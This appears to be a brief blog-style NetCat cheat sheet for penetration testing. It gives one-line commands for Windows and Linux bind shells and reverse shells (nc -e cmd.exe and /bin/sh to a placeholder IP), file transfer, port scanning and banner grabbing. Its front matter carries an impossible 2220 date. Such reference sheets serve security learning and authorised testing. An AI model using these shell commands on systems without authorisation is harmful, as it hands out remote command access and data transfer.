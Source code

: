 +++
title = "NetCat CheatSheet"
description = "NetCat CheatSheet"
tags = [ "NetCat", "NC", "CheatSheet", "Easy" ]
date = "2220-09-04"
location = "127.0.0.1"
categories = ["Ncat","CheatSheet"]
slug = "CheatSheet"
type = "post"
+++


### Transferring a File ###

```
nc -lvp 4444 > output.txt        #Receive
nc -nv <IP Address> < input.txt  #Send
```

### Netcat Bind Shell (Windows) ###

```
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444 #Connect to the shell
```

### Netcat Bind Shell (Linux) ###

```
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           #Connect to the shell
```

### Netcat Reverse Shell (Windows) ###

```
nc -lvp 443  # Listening for connection
nc -nv <IP Address> 443 -e cmd.exe
```

### Netcat Reverse Shell (Linux) ###

```
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

### Netcat - Port Scanner ###

```
nc -z <IP Address> <Port Range in abc - xyz format>
```

### Netcat Banner Grabbing ###

```
echo "" | nc -nv -w1 <IP Address> <Ports>
```